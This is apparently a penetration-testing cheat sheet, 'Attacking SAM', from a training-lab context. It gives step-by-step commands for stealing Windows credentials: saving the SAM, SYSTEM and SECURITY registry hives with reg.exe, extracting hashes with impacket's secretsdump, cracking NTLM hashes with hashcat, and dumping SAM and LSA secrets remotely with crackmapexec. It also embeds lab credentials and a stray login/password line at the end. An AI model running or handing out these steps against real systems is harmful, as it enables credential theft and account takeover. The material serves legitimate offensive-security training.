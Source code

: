 # Attacking SAM

### **Locally**

**Registry Hives**

<table><thead><tr><th width="182">Registry Hive</th><th>Description</th></tr></thead><tbody><tr><td><code>hklm\sam</code></td><td>Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.</td></tr><tr><td><code>hklm\system</code></td><td>Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.</td></tr><tr><td><code>hklm\security</code></td><td>Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.</td></tr></tbody></table>

**Using** `reg.exe` **save to Copy Registry Hives**

```cmd-session
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

> Move the files to attack machine and dump the hashes.

**secretsdump.py**

```shell-session
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

**Cracking hashes**

{% hint style="info" %}
Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS
{% endhint %}

Add the hashes to the text file before proceeding to crack the hashes.

```shell-session
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

* `-m 1000` tells hashcat to crack ntlm hashes

### **Remotely**

**Dumping LSA Secrets Remotely**

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

**Dumping SAM Remotely**

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

login: sam password: B@tm@n2022!

